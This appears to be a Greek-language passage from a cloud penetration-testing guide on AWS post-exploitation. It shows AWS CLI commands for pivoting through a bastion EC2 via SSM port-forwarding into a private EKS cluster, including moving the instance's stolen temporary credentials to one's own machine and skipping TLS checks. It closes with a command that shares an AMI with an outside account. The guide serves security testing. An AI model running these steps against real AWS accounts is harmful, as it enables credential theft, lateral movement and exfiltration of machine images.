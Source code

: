 Απαιτούμενες άδειες:
- `ssm:StartSession`

Εκτός από την εκτέλεση εντολών, το SSM επιτρέπει τη σήραγγα κυκλοφορίας, η οποία μπορεί να καταχραστεί για να γίνει pivot από EC2 instances που δεν έχουν πρόσβαση στο δίκτυο λόγω Security Groups ή NACLs. Ένα από τα σενάρια όπου αυτό είναι χρήσιμο είναι το pivoting από ένα [Bastion Host](https://www.geeksforgeeks.org/what-is-aws-bastion-host/) σε ένα ιδιωτικό EKS cluster.

> Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το SessionManagerPlugin εγκατεστημένο: https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html

1. Εγκαταστήστε το SessionManagerPlugin στον υπολογιστή σας
2. Συνδεθείτε στο Bastion EC2 χρησιμοποιώντας την παρακάτω εντολή:
```shell
aws ssm start-session --target "$INSTANCE_ID"
```
3. Πάρτε τα προσωρινά διαπιστευτήρια Bastion EC2 AWS με το [Abusing SSRF in AWS EC2 environment](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#abusing-ssrf-in-aws-ec2-environment) script  
4. Μεταφέρετε τα διαπιστευτήρια στον δικό σας υπολογιστή στο αρχείο `$HOME/.aws/credentials` ως προφίλ `[bastion-ec2]`  
5. Συνδεθείτε στο EKS ως Bastion EC2:
```shell
aws eks update-kubeconfig --profile bastion-ec2 --region <EKS-CLUSTER-REGION> --name <EKS-CLUSTER-NAME>
```
6. Ενημερώστε το πεδίο `server` στο αρχείο `$HOME/.kube/config` ώστε να δείχνει στο `https://localhost`  
7. Δημιουργήστε ένα SSM τούνελ ως εξής:
```shell
sudo aws ssm start-session --target $INSTANCE_ID --document-name AWS-StartPortForwardingSessionToRemoteHost --parameters '{"host":["<TARGET-IP-OR-DOMAIN>"],"portNumber":["443"], "localPortNumber":["443"]}' --region <BASTION-INSTANCE-REGION>
```
8. Η κίνηση από το εργαλείο `kubectl` προωθείται τώρα μέσω της σήραγγας SSM μέσω του Bastion EC2 και μπορείτε να αποκτήσετε πρόσβαση στο ιδιωτικό EKS cluster από το μηχάνημά σας εκτελώντας:
```shell
kubectl get pods --insecure-skip-tls-verify
```
Σημειώστε ότι οι συνδέσεις SSL θα αποτύχουν εκτός αν ορίσετε την επιλογή `--insecure-skip-tls-verify` (ή την αντίστοιχη στα εργαλεία ελέγχου K8s). Δεδομένου ότι η κίνηση είναι τούνελ μέσω του ασφαλούς AWS SSM τούνελ, είστε ασφαλείς από οποιοδήποτε είδος επιθέσεων MitM.

Τέλος, αυτή η τεχνική δεν είναι συγκεκριμένη για επιθέσεις σε ιδιωτικά EKS clusters. Μπορείτε να ορίσετε αυθαίρετους τομείς και θύρες για να μεταβείτε σε οποιαδήποτε άλλη υπηρεσία AWS ή σε μια προσαρμοσμένη εφαρμογή.

### Share AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}
